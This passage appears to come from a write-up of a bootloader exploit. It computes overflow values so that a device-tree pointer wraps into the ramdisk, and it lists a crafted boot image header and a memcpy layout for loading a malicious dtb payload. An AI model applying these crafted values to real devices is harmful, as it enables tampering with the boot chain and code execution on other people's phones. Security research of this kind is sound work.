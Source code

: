 0x3800000 - 0x30 = 0x37FFFD0.

Now we need to overflow the dtb pointer to the ramdisk region where our malicious dtb header resides. This will be simple, we need 0x37FFFD0 to overflow to 0x02000000 (technically 0x102000000 if the highest bit wasn't knocked off)

0x102000000 - 0x37FFFD0 = 0xFE800030

![graph](/images/graph.png)

Our zImage header length will be 0xFE800030.

Here's what our memcpy looks like now:
```C
memcpy(tags_addr, dtb, dtb_size)

or for better visualization

memcpy(0x0E000000, 0x02000000, 0x1800000 + payload)
```

Let's look at what we need in our boot image header again (I removed irrelevant headers):
```C
struct boot_img_hdr
{
    uint8_t magic[BOOT_MAGIC_SIZE];
    uint32_t kernel_size = zImage_hdr + payload
    uint32_t kernel_addr = 0x37FFFD0

    uint32_t ramdisk_size = malicious_dtb_hdr (just long enough to pass checks, I just copied the first 0x110 bytes)
    uint32_t ramdisk_addr = 0x02000000
    
    uint32_t tags_addr = 0x0E000000

    uint32_t unused = 0x0 to trigger dev_tree_appended
};
```
Then we'd add our malicious zImage size to 0x2C into the zImage header, which will be 0xFE800030 as calculated later.
